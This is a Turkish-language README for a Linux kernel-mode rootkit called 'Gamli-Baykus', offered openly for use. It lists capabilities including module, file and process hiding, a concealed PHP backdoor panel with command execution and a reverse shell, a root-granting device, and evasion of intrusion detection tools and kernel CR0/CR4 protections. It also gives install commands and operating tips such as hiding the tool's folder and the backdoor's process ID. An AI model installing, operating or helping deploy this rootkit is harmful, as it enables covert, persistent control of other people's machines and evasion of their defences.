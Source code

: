 # Gamli-Baykus



![Autro](autro.jpg)




**Kernel Mode Rootkit**

*Örnek Amaçlı Gliştirilmiş versiyondur, ilerleyen versiyonlarla daha farklı ve gelişmiş özellikler ile karşınızda olacak..*


**Test Edildiği Sistemler : Ubuntu 18.04 // CentOS 7.8.0**


### Özellikleri


**lsmod Üzerinde gözükmeyen LKM ler**

**Dosyalari gizleme**

**Klasörleri gizleme**

**Processleri gizleme**

**PHP arayuzu icin gizlenmis server portu**

**Farklı kullanıcıllardan root erişimi alabilmek için Bir device oluşturma.**

**HIDS Bypass (Agent Simth , Ossec , chrootkit , kstat , HiddenWall,lsrootkit)**

**Bypass Linux Kernel 3.15 x86 CR4 & CR0 pinning protections**

**Gizli PHP Arayuz (Porta Kurulu)**


### PHP Arayuz ozellikleri :

**Dosya sisteminde gozukmeme**

**Panel Anasayfa Guard (IP LOGGER)**

**CMD Komut calistirma**

**Bind Port Reverse Shell**


### Helper

```

sudo gamlibaykus --[PARAMETRE] [OPSIYON]


Gamli Baykus Kernel Mode Rootkit v1.0
[http://modebit0.info]

--file [Gizlenecek Dosya]
--process [Gizlenecek Process ID]
--rootdevice [Device Keyi]
--phpbackdoor [Port Number]

===[Kisa Opsiyonlar]===

-f [Dosya ismi]
-p [Process id]
-r [Devicekey]
-b [port number]

```

### Kurulum :

```
git clone https://github.com/0x00fy/Gamli-Baykus.git

cd Gamli-Baykus

chmod 777 *

sudo ./install.sh


```

### Kullanım Klavuzu ve Hatırlatmalar

Herşeyden önce kurulum yapıldıktan sonra --file parametresini kullanarak Tüm LKM lerin ve yardımcı araçların bulunduğu /var/baba klasörünü gizlemeyi unutmayın 

Gizlemek : sudo gamlibaykus -f /var/baba


Farklı kullanıcılardan Root Yetkisi almak için bir device oluşturduğunuzda Root yetkisine ulaşmak için `echo "GİRDİĞİNİZ DEVİCE KEYİ" > /dev/ttyR0 `

 Komutunu çalıştırmanız yeterli olacaktır..
 

Php backdoor arayüzü kurmak için sudo gamlibaykus -b [PORT NUMARASI] şeklinde çalıştırıp Arayüzü kurduktan sonra Terminalinize output olarak düşen Process ID sini gizlemeyi unutmayınız !


### İYİ EĞLENCELER !!


